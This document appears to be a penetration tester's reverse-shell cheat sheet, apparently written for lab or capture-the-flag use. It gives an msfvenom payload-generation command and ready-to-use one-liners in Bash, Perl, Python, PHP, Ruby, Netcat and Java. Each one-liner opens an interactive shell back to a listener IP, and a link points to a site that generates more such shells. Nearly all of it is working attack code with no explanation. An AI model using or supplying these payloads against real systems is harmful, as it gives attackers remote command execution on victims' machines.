 Can create more shells here: https://www.revshells.com/

### msfvenom

> sudo msfvenom -p windows/x64/shell/shell_reverse_tcp LHOST=10.10.15.73 LPORT=4444 -f raw > /home/kali/msfshelly.php

### Bash 

```
bash -i >& /dev/tcp/10.11.0.32/1234 0>&1
```

### Perl
```
perl -e 'use Socket;$i="10.11.0.32";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```
php -r '$sock=fsockopen("10.11.0.32",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.11.0.32",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```
nc -e /bin/sh 10.11.0.32 1234
```

or if you have a different version installed:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.32 1234 >/tmp/f
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.32/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

